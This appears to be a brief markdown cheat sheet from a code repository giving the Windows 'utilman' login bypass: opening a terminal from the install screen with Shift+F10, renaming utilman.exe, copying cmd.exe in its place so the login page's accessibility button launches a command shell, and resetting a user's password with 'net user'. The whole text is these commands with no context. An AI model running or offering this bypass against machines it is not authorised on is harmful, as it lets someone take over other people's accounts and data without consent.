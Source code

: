 login page
```powershell
utilman.exe
```

open terminal in install window
```powershell
<S-F10>
```

```powershell
<drive>\Windows\System32> ren utilman.exe utilman2.exe
```

```powershell
copy cmd.exe utilman.exe
```

set "password" as password of the user
```powershell
net user {username} password
```
